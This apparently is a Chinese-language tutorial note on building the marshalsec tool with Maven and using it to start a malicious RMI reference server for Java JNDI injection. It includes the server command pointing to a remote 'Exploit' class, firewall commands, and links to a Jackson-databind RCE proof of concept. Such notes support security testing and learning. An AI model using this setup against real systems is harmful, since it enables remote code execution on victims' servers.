



## 背景知识

** https://github.com/mbechler/marshalsec   可以快速开启RMI和LDAP服务**


需要下载源码包，使用maven编译为 jar


对于 不会用maven pom.xml build 项目。也可以在这个官方网站https://mvnrepository.com/  搜索jar包


## 安装maven

配置maven源仓库

	<mirrors>
	    <mirror>
	    	<id>nexus-aliyun</id>
	    	<mirrorOf>*</mirrorOf>
	    	<name>Nexus aliyun</name>
	    	<url>http://maven.aliyun.com/nexus/content/groups/public</url>
	    </mirror>
	</mirrors>

默认仓库路径：（win7 C:\Users\Administrator\.m2\repository）

	 <!-- localRepository
	   | The path to the local repository maven will use to store artifacts.
	   |
	   | Default: ${user.home}/.m2/repository
	  <localRepository>/path/to/local/repo</localRepository>


克隆项目，需要自己编译为jar,本项目需要 **java 8** 环境。

	git clone https://github.com/mbechler/marshalsec

maven build 命令：
	
	cd marshalsec

	mvn clean package -DskipTests

如果 build 失败，可在eclipse 导入 maven project 查看eclipse 具体报错,[可能的错误参考](https://blog.csdn.net/imlmy/article/details/8268293)

build 成功后会在当前项目下生成一个 target 文件夹，里面有新生成的jar包。






### RMI

在 Java 世界里，有一种技术可以实现“跨虚拟机”的调用，它就是 RMI（Remote Method Invocation，远程方法调用）。例如，服务A 在 JVM1 中运行，服务B 在 JVM2 中运行，服务A 与 服务B 可相互进行远程调用，就像调用本地方法一样，这就是 RMI。在分布式系统中，我们使用 RMI 技术可轻松将服务提供者（Service Provider）与服务消费者（Service Consumer）进行分离，充分体现组件之间的弱耦合，系统架构更易于扩展。

我们可以通过JVM提供的JNDI（Java Naming and Directory Interface，Java 命名与目录接口）这个API方便的发布RMI服务。

host,port,服务名(service)

```rmi://<host>:<port>/<service>```


```rmi://localhost:1099/cal```

	
	# 默认 port 1099

	java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://localhost:8000/#Exploit 1087


JDK对于JNDI的修复




	添加出站端口规则
	
	firewall-cmd --zone=public --add-port=222/tcp --permanent

	不关闭服务重载防火墙

	firewall-cmd --reload


https://github.com/cowtowncoder/jackson-compat-minor

[老版本jackson-databind poc](https://github.com/shengqi158/Jackson-databind-RCE-PoC)